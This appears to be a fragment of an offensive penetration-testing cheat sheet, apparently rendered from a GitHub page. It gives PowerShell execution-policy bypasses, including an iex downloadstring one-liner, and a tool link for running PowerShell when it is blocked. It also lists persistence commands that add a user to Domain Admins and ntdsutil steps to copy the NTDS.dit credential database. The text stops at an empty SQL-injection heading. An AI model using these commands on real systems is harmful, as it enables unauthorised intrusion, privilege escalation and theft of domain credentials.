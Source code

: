 **Execution Bypass**

```bash
Set-ExecutionPolicy Unrestricted
./file.ps1
```

```bash
Import-Module script.psm1
Invoke-FunctionThatIsIntheModule
```

```bash
iex(new-object system.net.webclient).downloadstring(“file:///C:\examplefile.ps1”)
```

**Powershell.exe blocked**

```bash
Use ‘not powershell’ [https://github.com/Ben0xA/nps](https://github.com/Ben0xA/nps)
```

**Persistence**

```bash
net user username "password" /ADD
```

```bash
net group "Domain Admins" %username% /DOMAIN /ADD
```

**Gather NTDS.dit file**

```bash
ntdsutil
```

```bash
activate instance ntds
```

```bash
ifm
```

```bash
create full C:\ntdsutil
```

```bash
quit
```

```bash
quit
```

# **SQLInjections**

### Common **Injections for Login Forms:**
